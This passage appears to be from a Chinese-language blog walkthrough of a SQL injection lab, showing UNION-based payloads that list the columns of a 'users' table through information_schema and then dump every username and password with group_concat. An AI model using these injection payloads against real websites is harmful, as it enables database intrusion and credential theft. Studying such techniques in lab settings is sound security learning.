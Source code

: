 看到了最后一个表是'users',可用于下一步爆字段

爆字段：

```mysql
id=0' union select 1,group_concat(column_name),database() from information_schema.columns where table_name='users' --+
```

![](/img/union爆字段.png)

爆出来了users表中的所有字段，最重要的user,password等全出来了，接下来就可以union查询出它们的值了

```mysql
id=0' union select 1,group_concat(username,0x3a,password),3 from users --+
```

![](E:/文档/Github仓库/LiGuHeiYi/LiGuHeiYi.github.io/_posts/img/union爆出账号密码.png)

好家伙，借助group_concat()方法，该数据库所有的账号密码都以“账号：密码”的格式爆出来了